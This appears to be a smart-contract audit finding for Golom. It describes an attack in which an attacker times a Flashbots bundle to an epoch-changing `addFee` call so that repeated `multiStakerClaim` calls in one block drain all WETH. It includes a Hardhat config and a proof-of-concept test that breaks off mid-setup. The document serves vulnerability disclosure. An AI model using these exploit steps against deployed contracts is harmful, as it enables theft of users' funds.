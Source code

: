 To abuse this, the attacker needs to follow this steps:
- Have some locked Golom tokens.
- Wait for a `addFee` call that will trigger an epoch change (this can be monitored by looking at the mempool or predicted from block timestamps). Services like Flashbots also [allows for specifying a range of blocks for bundles](https://docs.flashbots.net/Flashbots-auction/searchers/faq/#how-do-i-target-a-timestamp-range-instead-of-a-block-number-when-submitting-a-bundle) for better targeting.
- Send a bundle of transactions to be included with the block containing the epoch changing transaction (see the PoC for an example of transactions).

Note that this needs to succeed only once to allow an attacker to drain all WETH funds so if the bundle isn't included for a particular epoch, given the frequency of epoch changes, the bundle will eventually be included and trigger the exploit.

## Proof of Concept
Hardhat config for disabling auto-mine and control transactions included in blocks:
```json
hardhat: {
    allowUnlimitedContractSize: true,
    gas: 12000000,
    blockGasLimit: 0x1fffffffffffff,
    mining: {
      auto: false,
      interval: 10
    }
},
```
Hardhat test (requires setting up VoteEscrow):
```javascript
it('[#2] Repeated calls to `multiStakerClaim` in the same block leads to loss of funds', async () => {
    async function advance_time(time_s:any){
        let timestamp = await getTimestamp();
        await ethers.provider.send('evm_mine', [timestamp + time_s]);
    }

    async function mine(){
        await ethers.provider.send('evm_mine', []);
    }

    async function send_order(){
        await testErc721.mint(await maker.getAddress());

        let exchangeAmount = ethers.utils.parseEther('1'); // cut for the exchanges
        let prePaymentAmt = ethers.utils.parseEther('0.25'); // royalty cut
        let totalAmt = ethers.utils.parseEther('10');
        let tokenId = await testErc721.current();

        const order = {
            collection: testErc721.address,
            tokenId: tokenId,
            signer: await maker.getAddress(),
            orderType: 0,
            totalAmt: totalAmt,
            exchange: { paymentAmt: exchangeAmount, paymentAddress: await exchange.getAddress() },
            prePayment: { paymentAmt: prePaymentAmt, paymentAddress: await prepay.getAddress() },
            isERC721: true,
            tokenAmt: 1,
            refererrAmt: 0,
            root: '0x0000000000000000000000000000000000000000000000000000000000000000',
            reservedAddress: constants.AddressZero,
            nonce: 0,
            deadline: Date.now() + 100000000,
            r: '',
            s: '',
```